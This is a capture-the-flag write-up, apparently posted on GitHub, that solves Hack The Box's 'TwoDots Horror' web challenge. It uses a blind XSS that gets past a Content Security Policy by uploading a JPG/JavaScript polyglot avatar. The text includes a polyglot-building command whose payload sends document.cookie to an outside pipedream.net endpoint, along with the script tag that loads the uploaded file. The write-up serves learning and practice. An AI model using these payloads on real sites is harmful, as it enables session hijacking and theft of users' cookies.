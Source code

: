 # Introduction

We will be resolving the "TwoDots Horror" challenge from Hack The Box  by leveraging the OWASP top 10 techniques.

# Problem summary

Blind XSS with Image File Upload to hijack Admin’s Session.

# Problem Analysis Stage
![image](https://github.com/Jaswanthmandadi/Two-Dots-Horror/assets/162234831/91be331f-d69c-45ba-a8d1-c2ce66b181b7)



We saw the page mentioned above when we connected to the given URL(the virtual box ip:port provided). We entered a username and password on this page in order to log in or register.

First, we downloaded and looked over the supplied file. We examined the router's declared login and registration operations, but were unable to pinpoint them as potential SQL injection targets. As a result, we thoroughly examined other sections and concentrated on the crucial portions of the source code.

![image](https://github.com/Jaswanthmandadi/Two-Dots-Horror/assets/162234831/3c350107-63c6-4066-a7a0-8fe3e4c104ef)



To begin , we notised there is a part where CSP (Content Security Policy) is applied to the headers as middlewar.The following is how the CSP is set up:

![image](https://github.com/Jaswanthmandadi/Two-Dots-Horror/assets/162234831/e645bc62-c000-4374-a236-947fb48b225d)

Here, the part that seems vulnerable is the default-src: self setting in the CSP. This allows scripts originating from the same website to be executed. Generally, this could include uploaded files.
In the router, the /review path seems to be accessible only to localhost, indicating it's a page only the administrator can access.
When a POST request is made to the /api/submit path, the bot.purgeData(db) part triggers an action where the bot (virtual admin) goes to the /review path to check the post just submitted by the user.
Additionally, /api/avatar/:username fetches the user's profile picture.
Finally, /api/upload allows users to upload their profile pictures. The libraries used for upload restriction policies are image-size and is-jpg. (Analyzing these libraries took most of our  time during problem-solving.)

# Target Identification
Upon analyzing the provided files, it's apparent that the objective is to obtain the session through Blind XSS. However, the template engine used is Nunjucks, and the page the bot will check is review.html. (Below shows how the content we enter in review.html is structured with template tags.)
 ![image](https://github.com/Jaswanthmandadi/Two-Dots-Horror/assets/162234831/d074790a-b9de-47bf-b9d9-2f6021d17f22)


As you can seen in the review.html  it's written as {{ post.content|safe }}. We refered to the Nunjucks documentation (https://mozilla.github.io/nunjucks/templating.html#safe), and noticed that when the safe option is used, HTML escaping is not performed. Therefore, if tags are included here, they will be recognized as HTML tags. In this situation, executing <script>document.location.href='server_address';</script> would be blocked by two conditions.
Firstly, it's filtered in the conditional statement in the /api/submit router.

if(twoDots == null || twoDots.length != 2){
        return res.status(403).send(response('Your story must contain two sentences! We call it TwoDots Horror!'));
}
The constraint is that there must be exactly two dots. In that case, would the payload below work?

<script>eval(atob("something_base64_encoded"))</script>

It doesn't work. The reason is the second reason.
Secondly, because the CSP (Content Security Policy) setting is default-src: self, the eval function does not work.
Therefore, in this situation, script execution is only possible under the following conditions.
<script src="/api/avatar/test"></script>

Because the only file download feature on this website is the user profile. And by using this, if we pass an XSS payload as a user profile picture, the problem can be solved.
Firstly, to upload an XSS payload as an image file, you need to analyze the image file upload feature and the libraries that validate the integrity of image files used by the problem web service.
Library Analysis
We analyzed two libraries in total: image-size and is-jpg. Both libraries are Node.js libraries.
The first image-size library checks the size of the image file buffer. It determines the file extension or file signature of the image file, calculates the size of the buffer corresponding to the file signature. We refered to this link for  image size sourcecode https://github.com/image-size/image-size/blob/a38b56fe7303898ce6811adb213e518a57593d10/lib/types/jpg.ts#L104. The second is-jpg library performs much simpler operation than the above library. Basically, it checks the file signature. We refered to this link for  is-jpg source code: https://github.com/sindresorhus/is-jpg/tree/v2.0.0
Payload Composition
At this point we come up with our  XSS payload. https://github.com/s-3ntinel/imgjs_polygloter

	python3 img_polygloter.py jpg --height 120 --width 120 --payload "window.location='https://2bc5e8c2676690d6ab45027ee5a61217.m.pipedream.net/?cookie='+document.cookie" --output stealsession.jpg

The provided payload is the content inserted into a JPG image file. It fetches the cookie value using webhook.site. After composing the payload in this manner, the integrity of the binary data of the image file is checked against the image-size module and the is-jpg module to ensure there are no violations, and then it undergoes modifications to create the final file.Below is the integrity_check.js file that we used.


var sizeOf = require('image-size');
var isJpg = require('is-jpg');
_buffer = Buffer.from([0xFF, 0xD8, 0xFF, 0xE0, ... truncated ... ]);
var buffer = _buffer.slice(4);
var index = buffer.readUInt16BE(0);
var i = buffer.readUInt16BE(0);
console.log('index : ' + index);
console.log(buffer[index + 1].toString(16), buffer[index + 2].toString(16), buffer[index + 3].toString(16));
console.log((index > buffer.length) == false);
console.log((buffer[index] !== 0xFF) == false);
console.log(buffer[index + 1] === 0xC0);
buffer.readUInt16BE(index + 5);
buffer.readUInt16BE(index + 5 + 2);
var s = sizeOf(_buffer);
console.log('size of buffer : ' + s);
var jpg = isJpg(_buffer);
console.log(jpg);

			
index : 12074 
c0 ff fe
true
true
true
size of buffer :  [object Object] 
true



When we execute the above code and get all true values, it indicates that there are no issues with the image file. However, attempting to open the file as an image may result in corruption. Nevertheless, according to the assessments of the two libraries, the file deemed sufficient to be considered a normal image file. Now that we completed the payload, we can proceed to solving the problem.

# Problem Solution
1.	First, after registering and logging in,  the screen below appears .

![image](https://github.com/Jaswanthmandadi/Two-Dots-Horror/assets/162234831/c0710666-24cf-49a6-9fa2-e1c2fee67f3a)


2.	After clicking  the "Profile" button on the left, the screen below  appear.



![image](https://github.com/Jaswanthmandadi/Two-Dots-Horror/assets/162234831/1fe0c9e2-3b07-487f-87f6-db669629aaae)



3.	Upload the image file.

![image](https://github.com/Jaswanthmandadi/Two-Dots-Horror/assets/162234831/a01ee356-9e27-4daf-863e-e94816e09ff6)

Upon uploading, we  noticed that the image appears corrupted with a broken image icon as shown above. However, the upload has been successful.

4. After that we tried to write an HTML tag payload in the feed menu. The payload is formatted as follows:

![image](https://github.com/Jaswanthmandadi/Two-Dots-Horror/assets/162234831/93812453-e225-43c7-8e5b-69b0ed4cd208)


<script charset="ISO-8859-1" src="/api/avatar/test?t=1234"></script>..



5. Now, we opened pipedream to simply confirm if the session has actually been hijacked.

![image](https://github.com/Jaswanthmandadi/Two-Dots-Horror/assets/162234831/930484a3-40a3-47c7-86dd-f40c5c16bafb)







Flag: 
 HTB{Unit3d_d0ts_0f_p0lygl0t}

# Conclusion and Outcomes

By doing this, the flag has been successfully captured. Through this problem, we learned that CSP bypass is possible through image file uploads and that XSS vulnerabilities can occur in this challenge. We performed white box testing on the source code to find vulnerabilities and studied libraries image-size and is-jpg libraries. We learnt the usage of polygloter for crafting the payload in jpg format. We learnt usage of pipedream and webhook for capturing stolen admin session cookies.
